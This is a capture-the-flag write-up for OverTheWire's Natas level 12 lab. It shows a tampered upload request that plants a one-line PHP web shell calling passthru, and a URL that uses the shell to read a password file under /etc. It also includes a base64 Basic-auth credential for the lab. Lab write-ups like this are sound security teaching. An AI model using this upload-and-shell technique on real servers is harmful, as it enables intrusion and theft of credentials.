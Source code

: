 ~~~php
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?> 
~~~
It seems we can upload files, restricted to jpeg, but the restriction seems "a bit" shady. 
Lets use burp suite to see if we can upload what we want. Start by uploading any file, then change the request in burp repeater:
~~~
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Content-Type: multipart/form-data; boundary=---------------------------761051921490452581253734734
Content-Length: 501
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------761051921490452581253734734
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------761051921490452581253734734
Content-Disposition: form-data; name="filename"

test.php
-----------------------------761051921490452581253734734
Content-Disposition: form-data; name="uploadedfile"; filename="test.php"
Content-Type: text/php

<?php echo(passthru($_REQUEST["test"]));?>
-----------------------------761051921490452581253734734--
~~~
Resulting in `File uploaded successfully` and a link to the file. Now its just a matter of opening the url, view source, 
(to make output easier to read), and you have a poor mans browser shell to the server.
Retrieve the password for the next level by opening the url [view-source:http://natas12.natas.labs.overthewire.org/upload/p4kd1uhtkk.php?test=cat%20/etc/natas_webpass/natas13](view-source:http://natas12.natas.labs.overthewire.org/upload/p4kd1uhtkk.php?test=cat%20/etc/natas_webpass/natas13)
![natas12-2.png].
Read more on this vulnerability (Unrestricted file upload) on [OWASP](https://www.owasp.org/index.php/Unrestricted_File_Upload).
